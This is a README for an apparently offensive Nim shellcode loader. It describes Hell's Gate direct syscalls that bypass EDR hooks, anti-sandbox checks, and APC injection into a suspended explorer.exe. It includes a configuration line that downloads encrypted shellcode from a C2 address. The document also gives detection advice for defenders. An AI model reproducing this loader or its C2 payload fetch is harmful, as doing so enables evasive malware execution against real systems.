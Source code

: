 # Shellcode Injection via Direct Syscalls (Hell's Gate)

## Overview

This project demonstrates advanced Windows process injection techniques using direct system calls to bypass EDR (Endpoint Detection and Response) hooks. It implements the "Hell's Gate" technique to extract syscall numbers directly from `ntdll.dll` and execute them without going through hooked API functions.

## Features

- **Direct Syscall Execution**: Bypasses userland API hooks by invoking syscalls directly
- **Hell's Gate Technique**: Dynamically extracts syscall numbers from ntdll.dll at runtime
- **Process Hollowing**: Creates a suspended process and injects shellcode via APC (Asynchronous Procedure Call)
- **RC4 Encryption**: Downloads and decrypts shellcode from a remote server
- **Anti-Sandbox**: Basic memory checks to detect virtual environments

## Technical Implementation

### Direct Syscalls

The project implements three core NT functions via direct syscalls:

1. **NtAllocateVirtualMemory** - Allocates memory in the target process
2. **NtWriteVirtualMemory** - Writes shellcode to allocated memory
3. **NtQueueApcThread** - Queues an APC to execute the shellcode

### Syscall Stub Generation

For each syscall, the code:
1. Extracts the syscall number from the corresponding function in ntdll.dll
2. Validates the function prologue pattern (`4C 8B D1 B8`)
3. Generates a minimal assembly stub in executable memory
4. Executes the syscall directly

### Injection Flow

```
1. Download encrypted shellcode from C2 server
2. Decrypt using RC4
3. Create suspended explorer.exe process
4. Allocate RWX memory via NtAllocateVirtualMemory (syscall)
5. Write shellcode via NtWriteVirtualMemory (syscall)
6. Queue APC via NtQueueApcThread (syscall)
7. Resume thread to trigger execution
```

## Requirements

- Windows 10/11 (x64)
- Nim compiler
- Required Nim packages:
  - `winim`
  - `httpclient`
  - Custom RC4 module

## Compilation
Debug :
```bash
nim c main.nim
```

For smaller binary size:
```bash
nim c -d:stealth3 main.nim
```

## Configuration

Update the C2 server URL in the code:
```nim
data = client.getContent("http://192.168.1.19:8080/api_local")
```

Update the RC4 key:
```nim
key : string = "kernel32.dll"
```

## Disclaimer

⚠️ **FOR EDUCATIONAL PURPOSES ONLY**

This code is provided for educational and research purposes to understand advanced malware techniques and improve defensive security measures. Unauthorized use of this code for malicious purposes is illegal and unethical.

- Only use in authorized environments (your own lab, with explicit permission)
- Never deploy against systems you don't own or have written permission to test
- The authors assume no liability for misuse of this code

## Detection & Defense

Security professionals can detect this technique by:

- Monitoring for direct syscall execution patterns
- Detecting unusual assembly stub creation in memory
- Analyzing process creation with suspended threads
- Monitoring APC queue operations
- Network traffic analysis for encrypted payload downloads

## References

- [Hell's Gate Technique](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
- [Direct Syscalls in Offensive Security](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)

## License

This project is licensed under the MIT License - see the LICENSE file for details.

This project was generated in part with AI | Contributions and improvements welcome
